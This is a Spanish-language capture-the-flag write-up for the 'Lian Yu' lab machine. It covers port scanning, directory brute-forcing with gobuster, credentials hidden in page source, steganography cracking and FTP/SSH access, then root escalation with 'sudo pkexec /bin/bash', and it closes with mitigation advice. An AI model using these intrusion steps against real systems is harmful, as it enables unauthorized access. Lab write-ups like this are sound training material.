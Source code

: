 # Lian Yu
## Initial Scan
```
21/tcp    open  ftp     vsftpd 3.0.2
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp    open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          43554/udp6  status
|   100024  1          47489/udp   status
|   100024  1          47589/tcp   status
|_  100024  1          48692/tcp6  status
47589/tcp open  status  1 (RPC #100024)
```
## Enum 
### HTTP
#### Gobusting 1 
```
/island (Status: 301)
```
#### Island
```html
<p>You should find a way to <b> Lian_Yu</b> as we are planed. The Code Word is: </p><h2 style="color:white"> vigilante</style></h2>
```
Parecen unas creds Lian_Yu:vigilante

#### Guessing Time
Hace falta usar una wordlist con numeros de 0 a 9999 para encontrar el siguiente subdirectorio
```
/2100 (Status: 301)
```
#### 2100
Miramos el fuente y:
```
<!-- you can avail your .ticket here but how?   -->
```
Vamos a hacer gobusting con esa extension
```
:~$ gobuster -u http://10.10.204.63/island/2100 -w /usr/share/dirb/wordlists/directory-list-lowercase-2.3-big.txt -t 100 -x .ticket
>/green_arrow.ticket (Status: 200)
```
#### TIcket
```
This is just a token to get into Queen's Gambit(Ship)

RTy8yhBQdscX
```
Si le aplicaamos base58 decode tenemos el siguiente string: !#th3h00d

### FTP

Con el ticket y la code word de la island nos podemos logear en el ftp, no tenemos permiso de escritura en la carpeta en la que estamos "/home/vigilante/ y las 3 fotos y veamos si se les ha aplicado algún tipo de esteganografía 

#### Users

Ya que estamos en /home/vigilante veamos si tenemos otro usuario con /home , y asi es para slade

### Stego

Mirando los 3 archivos vemos que en aa.jpg están las strings caracteristicas de steghide
```
stegcracker aa.jpg rockyou.txt
```
Con esto extraeremos un zip, si lo desomprimimos tenemos un archivo llamado shado y otro llamado pass

De ahi sacamos la password para slade en SSH

## Privesc
```
User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```
Ejecutamos lo siguiente:
```
sudo pkexec /bin/bash
```
Y ya tenemos shell como root

# Analisis de la intrusiom
### Pkexec priveleged execution
El usuario slade puede utilizar pkexec como root, lo cual nos permitio elevar privilegios a root

# Solucion
### Pkexec priveleged execution
Permitir a un usuario regular ejecutar pkexec como root no parece algo con mucho sentido, la principal opción para mitigar esto seria eliminar este permiso si por algún casual se diese un caso en el que esto fuera necesario lo ideal seria introducir el comando entero en /etc/sudoers limitando bastante la explotación y aun asi lo optimo seria establecer una politica de Seccomp al respecto

